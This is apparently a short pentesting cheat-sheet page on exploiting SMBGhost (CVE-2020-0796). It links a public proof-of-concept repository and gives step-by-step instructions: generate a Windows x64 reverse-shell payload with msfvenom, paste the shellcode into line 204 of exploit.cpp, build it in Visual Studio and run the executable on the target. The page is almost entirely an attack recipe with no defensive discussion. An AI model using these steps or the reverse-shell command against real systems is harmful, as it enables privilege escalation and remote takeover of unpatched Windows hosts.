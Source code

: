 ```yaml
---
description: CVE-2020-0796
---
```


# SMBGhost

Requirements:

* Needs smb port 445 open on target
* Visual Studio to compile code

### CVE: CVE-2020-0796

### Github:

{% embed url="https://github.com/danigargu/CVE-2020-0796" %}

### Exploit using visual studio

* Generate shellcode using&#x20;

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f dll -f csharp
```

* Update shellcode in line 204 in `exploit.cpp`
* set TARGET architecture x64
* Build solution

Run file on target: `cve-2020-0796-local.exe`
